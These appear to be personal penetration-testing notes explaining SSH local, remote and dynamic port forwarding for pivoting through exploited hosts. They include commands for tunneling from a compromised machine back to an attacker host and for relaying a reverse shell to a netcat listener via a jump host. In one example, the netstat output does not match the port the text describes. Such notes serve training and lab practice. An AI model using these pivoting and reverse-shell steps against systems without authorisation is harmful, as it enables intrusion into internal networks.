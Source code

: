 # Port Tunneling Explained
I keep notes on how port tunneling works, and specify which scenario to deploy which technique.

## SSH Port Tunneling for exploitation

### Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is an open SSH service at 10.10.1.10:22 or 0.0.0.0:22.
- I have obtained credentials to the SSH service.

Technique: Local Port Forwarding via SSH.

```sh
(host)# ssh -L 3307:127.0.0.1:3306 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      22582/ssh
...
(host)# nc 127.0.0.1 3307
...
```

**Explanation:**
The first 3307 refers to opening a local port on your host machine. The 127.0.0.1:3306 refers to the remote host's service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

### Scenario 2:
- The service of my exploited machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is *no open* SSH server at 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the service back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH.

```sh
(host)# service ssh start
(exploited)$ ssh -R 3307:127.0.0.1:3306 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      25748/sshd
...
(host)# nc 127.0.0.1 3307
```

**Explanation:**
Within the exploited machine, we use the ssh client found inside exploited machine to connect back to our sshd hosted at our host machine with our set of credentials. 

The first 3307 refers to opening a local port on your remote machine (my host at 10.10.1.32). 
The 127.0.0.1:3306 refers to the local host's (exploited) service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

The format looks very similar to local port forwarding. TLDR, think of it as the same format but we swapped `-L` to `-R` for a reverse connection.

### Scenario 3:
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is an open SSH server at 10.10.1.10:22 or 0.0.0.0:22. 
- I have obtained credentials to the SSH service.

Technique #1: Local port forwarding via SSH to a single internal target.

```sh
(host)# ssh -L 8001:172.16.1.2:80 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# curl -v http://127.0.0.1:8001/
...
```

**Explanation:**
The first 8001 refers to opening a local port on your host machine. The 172.16.1.2:80 refers to the admin web panel located inside the intranet.
This will create an SSH tunnel to relay connection to your host's port 8001 to the target service. This is very similar to Scenario 1 except this time, we specify a specific remote target which is the intranet admin panel instead of 127.0.0.1.

Technique #2: Dynamic port forwarding via SSH to any internal target reachable by jumphost.

```sh
(host)# tail /etc/proxychains.conf
...
[ProxyList]
socks5  127.0.0.1 8001
(host)# ssh -D 8001 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# proxychains curl -v http://172.16.1.2/
...
```

**Explanation:**
We first edit our proxychains configuration file to set a SOCKS proxy at 127.0.0.1:8001.
Then, by using SSH dynamic port forwarding, we create a SOCKS proxy at port 8001 with the `-D` option.
Next, we can process to prefix any CLI commands with proxychains that will route our requests through this SOCKS proxy and reach the admin panel.
The benefit of this is that we are no longer limited to a single remote target hardcoded in our Local Port Forwarding. 

### Scenario 4:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 3.
- I found a vulnerability on 172.16.1.2:80 and I want to get a reverse connection back to my host machine (10.10.1.32). 
- There is an SSH client inside the jumphost.

Technique: Local Port Forwarding via SSH within jumphost to send reverse connection back to our host

```sh
(host)# service ssh start
(host)# nc -nlvp 9999
(host)# netstat -antp
...
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      100026/nc
...
(jumphost)$ ssh -L 172.16.1.10:4444:10.10.1.32:9999 kali@10.10.1.32
(jumphost)$ netstat -antp
...
tcp        0      0 172.16.1.100:9877       0.0.0.0:*               LISTEN      2283967/ssh
...
(host)# proxychains exploit.py --lhost=172.16.1.10 --lport=4444
```

**Explanation:**
I first start my own host's SSHd. I set a netcat listener at port 9999 to catch a reverse connection back on my host machine (10.10.1.32). 
Inside my jumphost, I leverage the SSH client found inside to perform a Local Port Forwarding instead. Interesting fact: Local Port Forwarding allows us to set a binding address without requiring any special option being enabled on the jumphost's SSHd configuration, unlike Remote Port Forwarding.
I can either set my binding address to 172.16.1.10 or 0.0.0.0. This will create a port 4444 listener on our jumphost as seen in our netstat. I then set the remote address pointing to my host's netcat at 10.10.1.32:9999. We can then exploit the admin web portal to call a reverse connection to our jumphost at 172.16.1.10:4444 which will redirect back to our netcat listener, thus catching a reverse shell. 

#### Why did I not try Reverse/Remote Port Forwarding? 

I have failed to successfully set a binding address via `-R` connecting from my host. The listening port will only bind to 127.0.0.1:4444. This is not good as we cannot use this to catch reverse connection back to this jump host.

I found out the reason why was due to an option not being enabled as documented in the Man page for SSH -R: 
> By default, TCP listening sockets on the server will be bound to the loopback interface only.  This may be overridden by specifying a bind_address.  An empty bind_address, or the address ‘*’, indicates that the remote socket should listen on all interfaces.  Specifying a remote bind_address will only succeed if the server's GatewayPorts option is enabled (see sshd_config(5))

